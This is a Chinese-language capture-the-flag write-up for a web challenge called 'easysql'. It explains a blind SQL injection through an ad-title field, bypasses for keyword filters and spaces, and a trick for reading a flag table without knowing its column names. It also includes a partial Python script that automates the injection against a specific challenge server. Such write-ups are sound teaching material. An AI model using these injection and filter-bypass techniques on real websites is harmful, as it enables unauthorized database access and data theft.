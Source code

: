 
### Web | easysql (833pt)
经测试和观察，~~不难~~发现广告名是是有注入点的，可以用 `'||{sql}||'` 的方式注入。然后广告提交之后，可以查看详情，通过观察这条广告是否正常显示，就可以知道 `{sql}` 的条件是否为真。所以可以用盲注。  

并且可以发现，广告名是有关键词过滤的，包括 `in`, `or`, `and`, `union`, `password` 等，其中 `and` 和 `or` 可以用 `&&` 和 `||` 绕过。  

然后由于屏蔽了 `in` 和 `or` 导致没有办法通过 `information_schema` 或 `mysql.innodb_table_stats` 查询表名和列名，且 MariaDB 没有 sys 库。  

故使用伟大的盲猜方法(指猜了好几个小时)，猜出里面有一个 `ads` 表，里面有 22 列；一个 `users` 表，有 `id`, `name` 和感觉有的 `password` 三列（但是并没有什么卵用，因为 admin 帐号啥都没有）。  

然后又使用盲猜大法(admin的md5搜到了极其相似的题目，考虑可能有flag字段/表/库)，找到了一个 `flag` 表，然后在未知列名的情况下，用 `SELECT (SELECT * FROM flag) >= (SELECT 1, {string})` 来盲注，就可以拿到一个没有区分大小写的 flag。   

小小爆破了一下flag，因为太菜了没不到大小写敏感的注入查询方法（过滤了bINary，MariaDB还没有json）  
然后又 xjb 枚举，发现 flag 只有 `sql` 的首位大写，即 `flag{Sql_1nj3cti0n_1s_s0_easy}`，提交可过。

``` python
import requests
import re

cookies = {'PHPSESSID': '_______________'}
RE = re.compile(r'detail\.php\?id=(\d+)')

def clear_list():
    requests.get('http://120.79.141.85:47930/empty.php', cookies=cookies)

def add_ads(title):
    global aid
    payload = {'title': title, 'content': 'Elaina is best', 'ac': 'add'}
    r = requests.post('http://120.79.141.85:47930/addads.php', cookies=cookies, data=payload)
    aid += 1
    assert '已发送申请' in r.text, title

def check_sql(sql):
    global aid
    if aid % 10 == 0:
        clear_list()
        add_ads('1')
    sql = sql.replace(' ', '/**/')
    add_ads(f"'||{sql}||'")
    requests.get(f'http://120.79.141.85:47930/index.php', cookies=cookies)
    r = requests.get(f'http://120.79.141.85:47930/detail.php', params={'id': str(aid)}, cookies=cookies)
    return '待管理确认' in r.text

class CharBinarySearch:
    def __init__(self):
        self.l = 0
        self.r = 128

    def is_done(self):
        return self.l + 1 >= self.r

    def middle(self):
        return (self.l + self.r) // 2

    def update(self, r):
        if r:
            self.l = self.middle()
        else:
            self.r = self.middle()

def main():
```